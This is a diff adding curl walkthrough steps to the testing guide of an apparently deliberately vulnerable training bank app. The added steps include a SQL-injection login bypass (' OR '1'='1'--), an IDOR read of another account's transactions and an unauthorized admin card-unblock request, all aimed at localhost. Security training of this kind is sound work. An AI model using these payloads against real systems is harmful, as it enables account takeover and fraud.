

Before and after one commit to Brano21/danubius-bank, a Markdown page: TESTING-GUIDE.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/TESTING-GUIDE.md
+++ b/TESTING-GUIDE.md
@@ -362,6 +372,19 @@ token"**. You can't forge it client-side → you'll need a *server-side* way to
 become admin (that's W2-03). All calls below send `Authorization: Bearer <token>`
 plus the gate cookie.
 
+**How to send these.** A browser address bar can't set `POST`/`PATCH`, custom
+headers or a Bearer token — so use a real tool: **Burp Repeater** (browse through
+Burp, right-click a request → *Send to Repeater*, then edit method / headers / body
+and hit *Send*) or **curl**. Set curl up once — capture the gate cookie and the
+token, then each task is a one-liner:
+```bash
+curl -s -c ck.txt -X POST -d "username=tester" -d "password=test123" \
+     http://localhost:8080/_gate/login -o /dev/null                 # gate cookie
+TOK=$(curl -s -b ck.txt --data-urlencode "username=' OR '1'='1'-- " --data-urlencode "password=x" \
+      http://localhost:8080/api/v1/login | grep -o '"token":"[^"]*"' | cut -d'"' -f4)
+AUTH="Authorization: Bearer $TOK"                                    # reuse below
+```
+
 ## W2-01 — BOLA / IDOR
 `WSTG-ATHZ-04` · OWASP **A01** · `GET /api/v1/accounts/{id}/transactions`
 
@@ -381,6 +404,8 @@ Object-Level Authorization.
 ```
 …,{"amount":null,"counterparty":"PRIVATE-VIP-STATEMENT","note":"RPC{...}",…}
 ```
+**Command:** `curl -s -b ck.txt -H "$AUTH" http://localhost:8080/api/v1/accounts/3/transactions`
+
 **Hints.** H1: what does the number in `/accounts/1/…` refer to? · H2: change it to
 2, 3, … — is there an ownership check? · H3: read `/accounts/3/transactions`.
 
@@ -396,6 +421,8 @@ POST /api/v1/admin/cards/4/unblock
 ```
 **Reason.** 200, not 403 → the endpoint checks you're *authenticated* but not that
 you're *admin* → Broken Function-Level Authorization.
+
+**Command:** `curl -s -b ck.txt -H "$AUTH" -X POST http://localhost:8080/api/v1/admin/cards/4/unblock`
 
 **Hints.** H1: are `/admin/*` endpoints actually restricted to admins? · H2: send
 the request with a plain token. · H3: `POST /api/v1/admin/cards/4/unblock`.
````
Also changed, not shown: other parts of TESTING-GUIDE.md (+49 -3 lines).
